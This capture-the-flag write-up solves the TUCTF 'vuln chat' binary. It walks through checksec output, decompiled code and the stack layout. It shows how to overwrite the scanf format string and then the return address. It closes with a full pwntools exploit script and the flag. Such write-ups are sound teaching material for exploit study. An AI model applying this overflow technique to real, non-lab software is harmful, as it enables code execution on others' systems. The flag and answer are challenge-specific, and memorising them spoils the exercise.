 # vuln chat

Let's take a look at the binary:

```
$	file vuln-chat 
vuln-chat: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a3caa1805eeeee1454ee76287be398b12b5fa2b7, not stripped
$	pwn checksec vuln-chat 
[*] '/Hackery/tuctf/vuln_chat/vuln-chat'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

So we can see it is a 32 bit binary, with a Non Executable stack. Let's see what happenes when we run it:

```
$	./vuln-chat 
----------- Welcome to vuln-chat -------------
Enter your username: guyinatuxedo
Welcome guyinatuxedo!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
guyinatuxedo: You can't
djinn: Sorry. That's not good enough
```

So it prompts us for a username, and a reason to trust us. Let's take a look at the binary in IDA.

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char reason[20]; // [sp+3h] [bp-2Dh]@1
  char username[20]; // [sp+17h] [bp-19h]@1
  int scanf_argument; // [sp+2Bh] [bp-5h]@1
  char zero; // [sp+2Fh] [bp-1h]@1

  setvbuf(stdout, 0, 2, 0x14u);
  puts("----------- Welcome to vuln-chat -------------");
  printf("Enter your username: ");
  scanf_argument = 's03%';
  zero = 0;
  __isoc99_scanf(&scanf_argument, username);
  printf("Welcome %s!\n", username);
  puts("Connecting to 'djinn'");
  sleep(1u);
  puts("--- 'djinn' has joined your chat ---");
  puts("djinn: I have the information. But how do I know I can trust you?");
  printf("%s: ", username);
  __isoc99_scanf(&scanf_argument, reason);
  puts("djinn: Sorry. That's not good enough");
  fflush(stdout);
  return 0;
}
```

So we can see that it scans in our input using scanf, with the argument `%30s` being stored on the stack. Let's take a look at the stack to see the size of everything on the stack:

```
-0000002D reason          db 20 dup(?)
-00000019 username        db 20 dup(?)
-00000005 scanf_argument  dd ?
-00000001 zero            db ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
``` 

So we can see that our username has a size of `0x14`.  After that is the scanf argument on the stack, which is four bytes big. Since we can only write 30 bytes to username and reason, we can't reach the return address with that. However with the write to username, we can overwrite `scanf_argument` to something such as `%99s`, so with the write to `reason` we can write 99 bytes and overwrite the return address and get rce.

With rce, we see that there is a function called `printFlag`. Looking at it, we can see that it just runs cat on the flag. So with rce, we can just call this function and we should get the flag. We can find the address to it using objdump:

```
$	objdump -D vuln-chat | grep printFlag
0804856b <printFlag>:
```

So we can see the address to `printFlag` is `0x804856b`. The offset between `reason` and the return address is:

```
>>> hex(0x4 - -0x2d)
'0x31'
```

When we overwrite the scanf argument by just writing the four character string as hex.

With this, we can write the exploit:

```
#Import pwntools
from pwn import *

#Designate the target
target = process('./vuln-chat')
gdb.attach(target)
#target = remote('vulnchat.tuctf.com', 4141)

#Prompt for input for a pause
raw_input()

#Construct the first payload
payload0 = "0"*0x14 + p32(0x73393925)

#Print the text up to the prompt for the username
print target.recvuntil("Enter your username: ")

#Send the first payload to overwrite the scanf argument
target.sendline(payload0)

#Construct the second payload
payload1 = "0"*0x31 + p32(0x804856b)

#Send the second payload
target.sendline(payload1)

#Drop to an interactive shell
target.interactive()
```

and when we run it, we get the flag `TUCTF{574ck_5m45h1n6_l1k3_4_pr0}`.

Just like that, we captured the flag!
